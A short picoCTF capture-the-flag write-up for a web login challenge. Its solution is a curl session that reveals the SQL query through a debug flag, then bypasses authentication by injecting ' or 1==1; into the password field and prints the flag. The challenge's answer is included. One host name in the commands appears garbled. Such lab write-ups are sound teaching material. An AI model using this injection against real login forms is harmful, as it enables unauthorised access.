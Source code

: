 #### Description

There is a website running at `https://jupiter.challenges.picoctf.org/problem/33850/` ([link](https://jupiter.challenges.picoctf.org/problem/33850/)) or http://jupiter.challenges.picoctf.org:33850. Do you think you can log us in? Try to see if you can login!


### Hints

1. There doesn't seem to be many ways to interact with this. I wonder if the users are kept in a database?
2. Try to think about how the website verifies your login.


### Solucion
```
karymeZapmen-picoctf@webshell:~$ curl -s https://jupiter.challenges.picoctf.org/problem/33850/login.php -d "username-admin&password=password&debug=1"
<pre>username: 
password: password
SQL query: SELECT * FROM users WHERE name='' AND password='password'
</pre><h1>Login failed.</h1>

karymeZapmen-picoctf@webshell:~$ curl -s https://jupiter.cm/33850/login.php -d "username-admin&password=' or 1==1;&debug=1" 
<pre>username: 
password: ' or 1==1;
SQL query: SELECT * FROM users WHERE name='' AND password='' or 1==1;'
</pre><h1>Logged in!</h1><p>

Your flag is: picoCTF{s0m3_SQL_f8adf3fb}</p>
```
